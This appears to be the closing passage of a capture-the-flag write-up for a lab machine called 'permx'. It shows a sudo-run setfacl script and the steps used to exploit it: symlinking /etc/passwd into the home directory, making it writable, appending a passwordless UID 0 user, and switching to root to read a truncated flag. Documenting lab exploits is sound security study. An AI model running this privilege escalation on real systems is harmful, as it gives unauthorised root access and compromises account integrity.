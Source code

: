 ```bash
if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

```

So, here's how I got root:

- I created a symbolic link from `/etc/passwd` to a file called `test` in the `/home/mtz/` directory
- Then, I used the `acl.sh` to modify `/home/mtz/test` to make it writable to `mtz`
- Finally, I used the user `rootme` to log into the root shell. And, I grep the root flag!

```bash
$ ln -s /etc/passwd /home/mtz/test
sudo /opt/acl.sh mtz rw /home/mtz/test
echo "rootme::0:0:rootme:/root:/bin/bash" >> ./test
mtz@permx:~$ su rootme
root@permx:/home/mtz# cd /root
root@permx:~# cat root.txt 
696c8277...
root@permx:~# 
```

root.txt

```text
696c8277...
```

